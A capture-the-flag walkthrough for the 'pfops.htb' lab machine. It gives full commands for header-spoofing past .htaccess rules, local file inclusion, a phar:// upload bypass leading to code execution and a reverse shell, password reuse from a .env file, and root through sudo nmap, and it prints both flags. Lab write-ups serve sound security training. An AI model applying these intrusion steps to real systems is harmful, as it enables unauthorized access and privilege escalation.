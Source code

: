 ![](assets/images/banner.png)

<img src="assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">pfops.htb</font>

​		27<sup>th</sup> October 2024

---

### Description:

This machine takes advantage of misconfigurations in file uploads, LFI exploitation, and Linux privilege misconfigurations, simulating an environment where attackers discover credentials and escalate privileges on a simulated internal server and gain root execution sudo abuse

### Difficulty:

`easy`

### Flags:

User: `htbmeetupcmr{PH4R_LF1_2_Rc3_ch411}`

Root: `htbmeetupcmr{NM4p_2_r007_0wn4g3}`

---

# Enumeration

1. **Network Scanning**:
   - Scan the machine’s IP to identify open ports:
     ```bash
     rustscan -a 16.16.145.247 -- -sV -sC -oN scan_results 16.16.145.247.txt
     ```
   - Open Ports:
     - **Port 80 (HTTP)**: Web server with unknown host redirection
     - **Port 22 (SSH)**: Potential SSH access

2. **Host Discovery**:
   - Accessing the machine’s IP in a browser causes a redirection to **pfops.htb**.
   - Add `pfops.htb` to `/etc/hosts`:
     ```plaintext
      #htb-MEETUP
      16.16.145.247 pfops.htb
     ```

3. **Web Enumeration on pfops.htb**:
   - If you did not follow the rules and never made your requests with the correct user-agent format you get a 403 forbidden page

   - The main page on **http://pfops.htb** shows a basic landing page with no obvious functionality.

   ![alt text](image.png)

   - Fuzz directories using `ffuf` to reveal a hidden `/dev/` 
     ```bash
     ffuf -u http://pfops.htb/FUZZ -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080    
    
     ```
   - Further fuzzing in the directory reveals the **.git** folder 
   - Dump `.git` contents using `git-dumper` and inspect the files to find `.htaccess`, which lists access requirements set on the apache server.

   - Doing some subdomain enumeration reveal a dev subdomain but with a 403 forbbiden page
   - upon analysing the content of the .htaccess file
      ```plaintext
         <IfModule mod_rewrite.c>
            RewriteEngine On
            # Restrict access based on X-Forwarded-For to allow only 192.168.100.0/24
            RewriteCond %{HTTP:X-Forwarded-For} !^192\.168\.100\.[0-9]{1,3}$
            RewriteRule ^ - [F]
            # Further restrict based on custom header for dev access
            RewriteCond %{HTTP:Admins} !^Tom$
            RewriteRule ^ - [F]
         </IfModule>

      ```
      - Here the access to the dev subdomain is conditioned with a request comming from an internal host in the lan network **192.168.100.0/24** 
      - Furthermore it is restricted to a particular header **Admins: Tom** 
     ```plaintext
     X-Forwarded-For: 192.168.100.0/24
     Admins: Tom
     ```

4. **Accessing dev.pfops.htb**:
   - Add `dev.pfops.htb` to `/etc/hosts`:
     ```plaintext
     16.16.145.247 dev.pfops.htb
     ```
   - Set custom headers to gain access:
     ```plaintext
     X-Forwarded-For: 192.168.100.1
     Admins: Tom
     ```
     - You can do this with a firefow brower extension https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search 
     by simply adding all your custom headers request and all request wiil be done with these headers

   - The page reveals a file upload form to check the integrity of XML configuration files.

---

# Foothold

1. **LFI Exploitation**:
   - The `page` parameter in **dev.pfops.htb** has a hidden parameter, since the webpage is still under developement we assume it's a mistake from the Développers, to check for this hidden parameter we Fuzz and check for the actual param
     ```plaintext
     ffuf -u 'http://dev.pfops.htb/?FUZZ=index.php' -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080  -mc 500,200,403 -H 'X-Forwarded-For: 192.168.100.1' -H 'Admins: Tom' -fs 2469
      ```
     ![alt text](image-2.png)
     
     - Getting the 500 error code while trying to get the server's index page make and error since it's 500 this tell us the server tried to include himself and therefore making a infinite loop and hence the error 
     - From there we try to test for a Local file inclusion vulnerability at it workss
     
     ![alt text](image-1.png)
     
     - The actual vulnerable parameter is page which is therefore vulnerable to an LFI
      ![alt text](image-3.png)

2. **Bypassing Upload Restrictions**:

   - **dev.pfops.htb** permits `.txt` uploads, which allows bypassing restrictions using a **PHAR archive**.
   - Create a PHP info function to a file, `test.php`:
   - Create a zip named **test.zip** containing the `test.php`
   - Then rename the **test.zip** to **test.txt**
     ```bash
     echo "<?php phpinfo();?> >> test.php
     zip -r test.zip test.php
     mv test.zip test.txt
     ```
   - upload the file to the server 
   - Trigger the shell with the `phar://` php filter to trigger execution:
     ```plaintext
     GET /?page=phar://uploads/e3c421cb45d2fc24b3219293fa0a9386/test.txt/test.php
     ```
     ![alt text](image-4.png)
   - Hence Remote code execution 
   - We then put a revershell php and repeat the process to get a shell
     
     ![alt text](image-5.png)

---

# Lateral Movement

1. **Database Credentials**:
   - Running **ss -tulpn** shows us a list of port on which the server is listenning
   we actually see port 3306 and port 8000 we actually get a python web server.
   - navigating throught the /var/www directory reveals `internal_app` which contains a `.env` file containing database credentials:
     
   - The `.env` password grants SSH access as **tom** due to password reuse.

     ![alt text](image-6.png)

2. **SSH to tom**:
   - Log in to **tom** via SSH put ssh is restricted to public key only:
     ```bash
     ssh tom@pfops.htb
     ```
      ![alt text](image-7.png)
   - While on our rev shell we do a su tom and enter the password and we are logged as tom
   ```shell
         tom@ip-172-31-43-97:/var/www/internal_app$ id
         id
         uid=1001(tom) gid=1001(tom) groups=1001(tom)
         tom@ip-172-31-43-97:/var/www/internal_app
   ```
---

# Privilege Escalation

1. **Sudo Privilege on Nmap**:
   - The `tom` user has limited sudo access to **nmap**. 
      
      ![alt text](image-8.png)
      https://gtfobins.github.io/gtfobins/nmap/#sudo
     ```bash
      TF=$(mktemp)
      echo 'os.execute("/bin/sh")' > $TF
      sudo nmap --script=$TF
     ```
   - This command executes as root, granting full system access.

     ![alt text](image-9.png)

---
